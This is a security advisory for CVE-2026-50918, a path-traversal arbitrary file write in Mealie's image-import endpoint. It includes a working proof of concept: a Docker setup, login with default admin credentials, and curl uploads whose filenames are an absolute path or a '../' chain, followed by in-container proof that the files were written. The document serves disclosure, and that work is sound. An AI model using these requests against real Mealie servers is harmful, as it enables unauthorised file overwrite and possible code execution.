



# CVE-2026-50918 — Authenticated Arbitrary File Write via Multipart Filename Path Traversal in Mealie Image Import

[CVE ID]
CVE-2026-50918

[PRODUCT]
mealie-recipes/mealie — self-hosted recipe manager and meal planner (FastAPI backend + Nuxt frontend, officially distributed as a Docker image)

[VERSION]
commit `15d56c42f7e9e4d1c866cde8b993f56f67add91a` (upstream HEAD, 2026-03-02)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The authenticated endpoint `POST /api/recipes/create/image` (`mealie/routes/recipe/recipe_crud_routes.py:223`) accepts a list of multipart image uploads (`images: list[UploadFile]`). The multipart `filename` of each `UploadFile` is fully attacker-controlled. The handler forwards the uploads to `RecipeService.create_from_images` (`mealie/services/recipe/recipe_service.py:323`), which persists every upload with `temp_path.joinpath(image.filename).open("wb")` (L328). `pathlib.Path.joinpath` performs no sanitization: an absolute filename discards the per-request temp dir entirely, and `../` segments walk out of it, so the raw upload bytes land at an arbitrary path writable by the service user. The route is gated on `OPENAI_ENABLED and OPENAI_ENABLE_IMAGE_SERVICES` (route L234): on a fresh instance with no OpenAI API key configured, `OPENAI_ENABLED` is false and the handler returns HTTP 400 before reaching the sink; with the gate passed (compose override with an API key configured), the file write happens *before* any OpenAI call, so the request still returns HTTP 500 (dummy API key) even though the traversal write has already hit the disk.

Vulnerable code: <https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/services/recipe/recipe_service.py#L323-L330>

## Proof of Concept

### Victim setup

Official compose file at the pinned commit, plus an override that (1) maps the assigned host port and (2) enables the OpenAI image-services feature gate (`ports: !override` keeps only the assigned port; the official file also maps 9091).

```bash
git clone https://github.com/mealie-recipes/mealie.git
cd mealie
git checkout 15d56c42f7e9e4d1c866cde8b993f56f67add91a

cat > docker/docker-compose.scdd.override.yml <<'YAML'
services:
  mealie:
    container_name: mealie-scdd-50918
    image: mealie:scdd-50918
    ports: !override
      - "34788:9000"
    environment:
      OPENAI_ENABLED: "true"
      OPENAI_ENABLE_IMAGE_SERVICES: "true"
      OPENAI_API_KEY: "scdd_dummy"
YAML

docker compose -p scdd_50918 -f docker/docker-compose.yml -f docker/docker-compose.scdd.override.yml up -d --build
# poll until: curl -fsS http://127.0.0.1:34788/api/app/about -> 200
```

Verified in the running image: `grep -n 'joinpath(image.filename)' .../mealie/services/recipe/recipe_service.py` returns the sink at L328/L330.



### Attack steps

```bash
BASE="http://127.0.0.1:34788"

# 1) Authenticate via OAuth2 password flow (default first-login credentials)
TOKEN="$(curl -sS -X POST "$BASE/api/auth/token" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=admin' \
  --data-urlencode 'password=MyPassword' \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"

# 2) Build a 103-byte 1x1 PNG whose tEXt chunk carries the marker CVE50918_MARKER
python3 - <<'PY'
import struct, zlib
marker = b"CVE50918_MARKER"
def chunk(typ, data):
    crc = zlib.crc32(typ); crc = zlib.crc32(data, crc) & 0xFFFFFFFF
    return struct.pack(">I", len(data)) + typ + data + struct.pack(">I", crc)
sig = b"\x89PNG\r\n\x1a\n"
ihdr = struct.pack(">IIBBBBB", 1, 1, 8, 6, 0, 0, 0)
idat = zlib.compress(b"\x00\x00\x00\x00\x00")
png = sig + chunk(b"IHDR", ihdr) + chunk(b"tEXt", b"Comment\x00" + marker) + chunk(b"IDAT", idat) + chunk(b"IEND", b"")
open("/tmp/scdd_50918_payload.png", "wb").write(png)
PY

# 3a) Attack A — multipart filename is an ABSOLUTE path
curl -sS -X POST "$BASE/api/recipes/create/image" \
  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
  -F "images=@/tmp/scdd_50918_payload.png;filename=/tmp/scdd_50918_pwned.png;type=image/png" \
  -w '\nHTTP_STATUS=%{http_code}\n'
# -> Internal Server Error / HTTP_STATUS=500  (dummy OpenAI key fails only AFTER the write)

# 3b) Attack B — multipart filename is a dot-dot traversal
#     (per-request temp dir is /app/data/.temp/<uuid>; 4x ".." reaches /)
curl -sS -X POST "$BASE/api/recipes/create/image" \
  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
  -F "images=@/tmp/scdd_50918_payload.png;filename=../../../../tmp/scdd_50918_pwned2.png;type=image/png" \
  -w '\nHTTP_STATUS=%{http_code}\n'
# -> Internal Server Error / HTTP_STATUS=500
```



### Evidence

In-container verification (`docker exec mealie-scdd-50918 ...`):

```
$ docker exec mealie-scdd-50918 ls -la /tmp/scdd_50918_pwned.png /tmp/scdd_50918_pwned2.png
-rw-r--r-- 1 abc abc 103 Sep 28 04:57 /tmp/scdd_50918_pwned.png
-rw-r--r-- 1 abc abc 103 Sep 28 04:57 /tmp/scdd_50918_pwned2.png

$ docker exec -i mealie-scdd-50918 python3 -
/tmp/scdd_50918_pwned.png  exists=True size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
/tmp/scdd_50918_pwned2.png exists=True size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
$ python3 -   (host-side reference)
host payload size=103 md5=b84fe825a040b0ff86a32add2e41a075 has_marker=True
```

Both written files are byte-for-byte identical to the attacker's upload (same md5, marker `CVE50918_MARKER` present), proving arbitrary-path write of arbitrary attacker-controlled bytes. Pre-attack, the first target was verified absent (`ls: cannot access '/tmp/scdd_50918_pwned.png': No such file or directory`).

Negative control — same request against a stack recreated *without* the OpenAI env vars (feature disabled):

```
{"detail":{"message":"OpenAI image services are not enabled","error":true,"exception":null}}
HTTP_STATUS=400
$ docker exec mealie-scdd-50918 ls /tmp/scdd_50918_negctl.png
ls: cannot access '/tmp/scdd_50918_negctl.png': No such file or directory
```



## Impact

An authenticated user (any valid account; on a fresh instance the default first-login credentials `admin` / `MyPassword` work) can reach the sink when the instance has OpenAI integration configured and image services not disabled. At the pinned commit the effective gate is `OPENAI_ENABLED and OPENAI_ENABLE_IMAGE_SERVICES` (`recipe_crud_routes.py:234`): `OPENAI_ENABLED` is a derived setting (computed from a configured OpenAI API key and model, `mealie/core/settings/settings.py:422`), while `OPENAI_ENABLE_IMAGE_SERVICES` defaults to `True` (`settings.py:400`) — so the practical prerequisite is "an OpenAI API key (+ model) is configured and image services were not explicitly disabled". A fresh instance with no API key has `OPENAI_ENABLED=false` and the handler rejects the request with HTTP 400 before any file is written. The two environment variables shown in this PoC's compose override (`OPENAI_ENABLED: "true"` together with a dummy `OPENAI_API_KEY`) are this PoC's chosen configuration, not requirements for every affected instance. With the gate passed, the attacker controls the full write: arbitrary destination path (absolute paths, or `../` chains escaping the per-request temp dir) and arbitrary content (the uploaded bytes are written verbatim, subject only to the uploaded body being parseable multipart). The write is bounded by the container service user's (`abc`) filesystem permissions. Proven primitive: configuration-gated arbitrary-path write of arbitrary uploaded bytes; overwriting files the service user may write (application code/config) could escalate to remote code execution as characterized in the CVE record — plausible, not demonstrated here.

## Occurrences

- `mealie/routes/recipe/recipe_crud_routes.py:223` — `POST /create/image` route; feature gate at L234 (`OPENAI_ENABLED and OPENAI_ENABLE_IMAGE_SERVICES`); forwards uploads to the service at L240
- `mealie/services/recipe/recipe_service.py:328` — `RecipeService.create_from_images`: `temp_path.joinpath(image.filename).open("wb")` sink (unsanitized multipart filename; joined again at L330)

## References

- [CVE-2026-50918](https://www.cve.org/CVERecord?id=CVE-2026-50918)
- [mealie-recipes/mealie](https://github.com/mealie-recipes/mealie)
- Sink at pinned commit: <https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/services/recipe/recipe_service.py#L328>
